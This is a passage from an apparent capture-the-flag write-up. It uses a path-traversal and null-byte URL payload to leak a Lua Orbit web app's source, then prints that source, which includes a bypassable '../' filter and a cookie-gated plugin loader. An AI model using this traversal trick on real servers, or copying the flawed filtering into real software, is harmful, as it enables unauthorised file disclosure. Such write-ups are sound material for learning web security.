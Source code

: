 The next thing to do is leak the app with `https://moon-and-void.intent.ctf.today/download?html=....//app.lua%00`:

```lua
#!/usr/bin/env wsapi.cgi

require "logging"
local orbit = require "orbit"
local cosmo = require "cosmo"
local markdown = require "markdown"

math.randomseed(os.time())
local logger = logging.new(function(self, level, message)
                             print(level, message)
                             return true
                           end)
logger:setLevel(logging.WARN)

module("app", package.seeall, orbit.new)

-- Controllers

function index(web)
    return web:page("templates/index.html")
end

function convert(web)
    logger:info("Convert called!")
    local html_tmp = markdown(web.POST.mark)
    local filename = random_string(20)
    local f = io.open("/app/html/" .. filename .. ".html", "w")
    f:write(html_tmp)
    f:close()
    web:set_cookie("file", filename)
    return web:redirect("/")
end

function download(web)
    local tmp = web.GET.html
    logger:info("Download file " .. tmp)
    local f = io.open("/app/html/" .. tmp:gsub("%.%.%/", "") .. ".html")
    local content = f:read("*a")
    f:close()
    return render_layout(content)
end

function login(web)
    user = "guest"
    web.set_cookie("user", user)
    return "Under construction"
end

function load_plugin(web)
    local access = web.cookies["access"]
    if access == io.open("creds"):read("*a") then
        return web:page(web.input.plugin)
    else
        return web:page("templates/admin.html")
    end
end

-- Dispatch table

app:dispatch_get(index, "/", "/index")
```